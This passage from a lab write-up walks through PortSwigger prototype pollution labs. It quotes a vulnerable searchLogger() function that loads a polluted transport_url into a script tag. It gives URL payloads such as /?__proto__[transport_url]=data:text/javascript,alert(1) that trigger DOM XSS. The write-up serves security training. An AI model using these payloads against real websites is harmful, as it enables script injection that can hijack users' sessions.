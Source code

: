 I checked the XSS cheatsheet to find a payload, and it worked:

![](../../.gitbook/assets/portswigger-prototype-writeup-image-6.png)

The above XSS payload means I have to use:

```
/?__proto__[value]=data:text/javascript,alert(1)
```

## Lab 2: Client-Side -> DOM XSS

To solve this lab, call `alert()`. From the name of the lab, it is likely I have to pollute a prototype that is passed into a vulnerable sink.

Here's the `searchLogger()` function:

```js
async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};

    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }

    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

So this passes `config.transport_url` to a `script` element. The lab still uses an unsanitised `config.params` variable to run this script.

I can first pollute `transport_url` via `/?__proto__[transport_url]=foo`. This causes the `<script>` tag to be generated:

![](../../.gitbook/assets/portswigger-prototype-writeup-image-7.png)

This is abusable in the same manner as Lab 1.

```
/?__proto__[transport_url]=data:text/javascript,alert(1)
```
